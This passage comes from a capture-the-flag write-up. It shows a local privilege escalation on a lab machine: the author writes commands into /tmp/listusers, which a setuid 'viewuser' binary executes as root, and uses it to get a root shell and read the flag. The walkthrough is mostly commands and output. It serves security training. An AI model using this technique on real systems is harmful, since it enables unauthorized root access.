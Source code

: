 It throws an error saying that `sh` can’t find `/tmp/listusers`.

```

djmardov@irked:~$ echo "test" > /tmp/listusers

djmardov@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-20 11:57 (:0)
djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
sh: 1: /tmp/listusers: Permission denied

```

Permissions - the only thing that root can’t do is execute. So I’ll add it, and change it to a command:

```

djmardov@irked:~$ chmod +x /tmp/listusers 
djmardov@irked:~$ echo id > /tmp/listusers 
djmardov@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-20 11:57 (:0)
djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)

```

There’s execution. I’ll change the command to get a shell:

```

djmardov@irked:~$ echo sh > /tmp/listusers 
djmardov@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-20 11:57 (:0)
djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)

```

And I can grab `root.txt`:

```

# cat /root/root.txt
8d8e9e8b...

```
